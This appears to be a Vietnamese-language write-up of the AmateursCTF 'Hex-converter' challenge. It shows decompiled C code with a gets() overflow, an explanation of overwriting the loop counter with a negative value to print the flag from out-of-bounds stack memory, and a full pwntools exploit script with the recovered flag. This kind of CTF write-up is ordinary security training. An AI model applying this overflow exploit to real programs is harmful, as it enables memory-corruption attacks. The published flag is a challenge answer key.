 # Hex-converter
## Source
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  FILE *v3; // rax
  char s[64]; // [rsp+0h] [rbp-60h] BYREF
  char v6[28]; // [rsp+40h] [rbp-20h] BYREF
  int v7; // [rsp+5Ch] [rbp-4h]

  setbuf(stdout, 0LL);
  setbuf(stderr, 0LL);
  v7 = 0;
  puts("input text to convert to hex: ");
  gets(v6);
  v3 = fopen("flag.txt", "r");
  fgets(s, 64, v3);
  while ( v7 <= 15 )
    printf("%02X", (unsigned __int8)v6[v7++]);
  putchar(10);
  return 0;
}
```
## Phân tích
- Ta có lỗi bof ở `gets(v6)`. Thứ tự các biến `s[64] > v6[28] > v7`
- Như vậy ta có thể tận dụng lỗi bof để tràn biến qua v7. 
![image](https://github.com/wan-hyhty/CTFs_competition/assets/111769169/ae83a97c-1fcc-489b-b081-2b7c2b277da2)
- Ngoài ra nó còn out-of-bound. Khi mà không kiểm tra xem v7 có lớn hơn 0 hay không.
## Khai thác
- Ta sẽ overwrite giá trị v7 thành số âm để vòng `while` in flag
- Ta sẽ in bắt đầu từ `v6[-66]`
- Để đổi hex->ascii mình dùng web `kt.gy`
![image](https://github.com/wan-hyhty/CTFs_competition/assets/111769169/f2f721a9-14ed-4e1e-89c6-a1467dc0ba41)
![image](https://github.com/wan-hyhty/CTFs_competition/assets/111769169/68ddf2f5-ad88-4a0e-9130-1c0ba76e7257)


```python
#!/usr/bin/python3

from pwn import *

exe = ELF('chal', checksec=False)

context.binary = exe

def GDB():
        if not args.REMOTE:
                gdb.attach(p, gdbscript='''
                # b* main+82

                c
                ''')
                input()

info = lambda msg: log.info(msg)
sla = lambda msg, data: p.sendlineafter(msg, data)
sa = lambda msg, data: p.sendafter(msg, data)
sl = lambda data: p.sendline(data)
s = lambda data: p.send(data)

if args.REMOTE:
        p = remote('amt.rs', 31630)
else:
        p = process(exe.path)

GDB()
payload = b"a" * 28 + p32(0xffffffbe)
sla(b"hex:", payload)
p.interactive()
# amateursCTF{wait_this_wasnt_supposed_to_be_printed_76723}
```